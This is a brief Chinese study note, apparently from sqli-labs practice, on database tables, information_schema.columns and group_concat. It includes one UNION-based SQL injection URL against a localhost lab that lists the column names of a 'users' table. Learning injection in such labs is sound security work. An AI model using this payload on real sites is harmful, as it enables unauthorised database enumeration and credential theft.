

# 问题： 数据库的表，表中字段

	information_schema.columns
	group_concat的作用。
	http://localhost/sqli-labs/Less-1/?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+